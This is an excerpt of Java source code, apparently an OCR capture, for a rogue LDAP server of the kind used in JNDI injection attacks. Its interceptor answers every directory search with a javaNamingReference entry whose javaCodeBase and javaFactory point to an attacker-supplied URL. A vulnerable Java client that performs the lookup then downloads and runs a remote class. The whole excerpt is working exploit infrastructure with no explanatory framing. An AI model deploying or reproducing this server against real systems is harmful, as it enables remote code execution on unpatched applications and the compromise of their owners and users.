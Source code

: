 ```java
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("LDAP Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```
